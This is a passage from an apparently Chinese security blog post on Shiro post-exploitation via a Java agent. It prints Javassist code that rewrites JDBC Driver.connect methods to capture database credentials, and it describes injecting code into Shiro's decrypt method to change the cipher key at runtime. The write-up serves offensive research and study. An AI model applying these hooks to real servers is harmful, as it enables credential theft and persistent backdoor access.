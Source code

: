 这里简单说一下大致作用，具体得配合文章[从内存中 Dump JDBC 数据库明文密码](https://mp.weixin.qq.com/s/QCfqO2BJuhSOr58rldZzxA)才能看懂。

<font color=red>通过循环判断类 clazz 是否是**Driver.class**的子类、实现类，然后再 ClassPool 中加入 clazz 和 clazz 的类加载器。然后修改对应的 connect 方法代码，在前面加入自定义的代码。</font>

```bash
                // 判断类clazz是否是Driver.class的子类、实现类
                if (Driver.class.isAssignableFrom(clazz)){
                    ClassPool classPool = new ClassPool(true);
                    // 加入clazz的classpath
                    classPool.insertClassPath(new ClassClassPath(clazz));
                    // 加入类加载器
                    classPool.insertClassPath(new LoaderClassPath(clazz.getClassLoader()));
                    CtClass ctClass = classPool.get(clazz.getName());
                    // 获取类中的connect方法
                    CtMethod ctMethod = ctClass.getMethod("connect","(Ljava/lang/String;Ljava/util/Properties;)Ljava/sql/Connection;");
                    // 修改connect方法，再开头加入自定义代码
                    ctMethod.insertBefore(String.format("                    try {\n" +
                            "                        java.lang.Class.forName(\"%s\",true,java.lang.ClassLoader.getSystemClassLoader()).getMethod(\"add\", new java.lang.Class[]{java.lang.String.class, java.util.Properties.class}).invoke(null,new java.lang.Object[]{$1,$2});\n" +
                            "                    }catch (java.lang.Throwable e){\n" +
                            "                        e.printStackTrace();\n" +
                            "                        \n" +
                            "                    }",Main.class.getName()));

                    inst.redefineClasses(new ClassDefinition(clazz,ctClass.toBytecode()));
                    ctClass.detach();
                }
```

自定义的代码块调用了 agent 中的**Main.class**的**add**方法，之后的这块可以继续看北辰师傅文章[从内存中 Dump JDBC 数据库明文密码](https://mp.weixin.qq.com/s/QCfqO2BJuhSOr58rldZzxA)。<font color=red>总结一下，大概思路。首先通过 agent 将目标的接口或者是抽象类 hook 了，然后对其修改代码逻辑，从而实现的需要实现的目的。并且生成 agent 已经被北辰师傅集成了，我们无需考虑，这使得我们的工作内容大大的简化了。</font>

- - -

### [0x02 shiro 后渗透实现](#toc_0x02-shiro)

现在我们能 hook 我们想要的所有类，并且也能修改其代码逻辑，加入自己想要的功能。比例说北辰师傅就调用了 agent 中 Main.class 的 add 方法。前面提到我们修改 key 的功能，并不是通用的，但 agent 的优势可以完美解决这个问题。

- - -

#### [修改 shiro 的 key](#toc_shirokey)

在之前的博文中[shiro 反序列化漏洞攻击拓展面–修改 key](https://sumsec.me/2022/shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E6%94%BB%E5%87%BB%E6%8B%93%E5%B1%95%E9%9D%A2--%E4%BF%AE%E6%94%B9key.html)提到，想要修改掉 shiro 的 key 就需要调用内存中的**AbstractRememberMeManager**对象。调用**AbstractRememberMeManager**对象的<font color=red>setCipherKey</font>方法，才能实现修改 shiro 的 key 的目的。最开始我的想法和北辰师傅一样，调用 agent 中的某一类的方法。但这导致了一个问题，在 agent 中，我们无法直接获取实例化**AbstractRememberMeManager**对象，但其实也有解决方法，使用深度优先算法获取实例化**AbstractRememberMeManager**对象。这也导致了实现变得很麻烦了，相比北辰师傅的实现就显得很笨重了。所以我放弃了这种方式，我将所有的代码逻辑都加入到**AbstractRememberMeManager**对象的**decrypt**方法，其实只需要添加一行代码即可非常的简单。
